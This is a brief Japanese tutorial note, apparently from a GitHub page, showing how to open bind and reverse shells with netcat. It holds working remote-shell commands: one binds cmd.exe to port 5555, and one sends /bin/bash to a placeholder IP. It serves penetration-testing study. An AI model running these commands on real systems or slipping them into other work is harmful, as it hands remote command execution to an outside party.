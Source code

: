 # ncを使ったバインドシェル他

## バインドシェル

バインドシェルは対象のportが空いてないと使えないことが難しいところ...

### ホスト

```
> nc.exe -lvp 5555 -e cmd.exe
```

-l: 待ち受け
-v: vervose
-p: port

![img](https://i.imgur.com/iz75nuZ.png)

### クライアント(対象)

```
$ nc xxx.xxx.xxx.xxx 5555
```

![img](https://i.imgur.com/JRziuK3.png)

## リバースシェル

### ホスト

```
$ nc -lvp 5555
```

![img](https://i.imgur.com/YniUhqL.png)

### クライアント(対象)

```
$ nc xxx.xxx.xx.xx 5555 -e /bin/bash
```

![img](https://i.imgur.com/DsuIgVh.png)